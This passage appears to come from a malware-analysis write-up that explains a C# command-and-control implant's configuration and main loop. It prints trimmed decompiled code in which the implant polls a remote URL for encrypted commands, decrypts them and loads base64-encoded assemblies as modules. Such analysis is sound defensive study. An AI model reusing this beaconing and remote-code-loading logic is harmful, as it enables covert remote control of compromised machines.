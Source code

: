 Here's what we know:
- `baseURL`, `RandomURI`, and `stringURLs` all define the behavior of the implant as it communicates over HTTP
- There's also some kind of interaction with images happening with `stringIMGS` and `ImgGen`
- `Key` is a new AES key
- `Jitter` and `Sleep` define how long the implant spends asleep in between commands
- `KillDate` defines when the program should finally stop executing

This `ImplantCore()` function defines the main loop of the implant.
```cs
while (!manualResetEvent.WaitOne(new Random().Next((int)((double)(num * 1000) * (1.0 - num2)), (int)((double)(num * 1000) * (1.0 + num2)))))
		{
			if (DateTime.ParseExact(KillDate, "yyyy-MM-dd", CultureInfo.InvariantCulture) < DateTime.Now)
			{
				Program.Run = false;
				manualResetEvent.Set();
			}
			else
			{
				stringBuilder.Length = 0;
				try
				{
					string text = "";
					string cmd = null;
					try
					{
						cmd = Program.GetWebRequest(null).DownloadString(Program.UrlGen.GenerateUrl());
						text = Program.Decryption(Key, cmd).Replace("\0", string.Empty);
					}
// trim...
```

The first part of this loop does a bunch of error handling, but most notably makes a request to a random URL, and then decrypts the output.

```cs
if (text.ToLower().StartsWith("multicmd"))
{
	string text2 = text.Replace("multicmd", "");
	string[] array = text2.Split(new string[] { "!d-3dion@LD!-d" }, StringSplitOptions.RemoveEmptyEntries);
	foreach (string text3 in array)
	{
		Program.taskId = text3.Substring(0, 5);
		cmd = text3.Substring(5, text3.Length - 5);
		if (cmd.ToLower().StartsWith("exit"))
		{
			Program.Run = false;
			manualResetEvent.Set();
			break;
		}
		if (cmd.ToLower().StartsWith("loadmodule"))
		{
			string text4 = Regex.Replace(cmd, "loadmodule", "", RegexOptions.IgnoreCase);
			Assembly assembly = Assembly.Load(Convert.FromBase64String(text4));
			Program.Exec(stringBuilder.ToString(), Program.taskId, Key, null);
		}
// trim...
```
